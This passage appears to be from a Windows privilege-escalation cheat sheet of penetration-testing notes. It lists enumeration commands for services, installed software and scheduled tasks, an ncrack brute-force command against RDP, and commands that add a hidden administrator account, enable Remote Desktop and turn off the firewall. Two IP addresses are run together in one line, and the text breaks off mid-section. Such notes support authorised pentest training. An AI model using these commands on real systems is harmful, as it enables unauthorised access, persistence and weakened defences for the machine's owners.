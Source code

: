 ### Programs running as root/system



### Installed software

```
# Metasploit
ps

tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```


### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://10.10.10.8710.10.10.102
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

```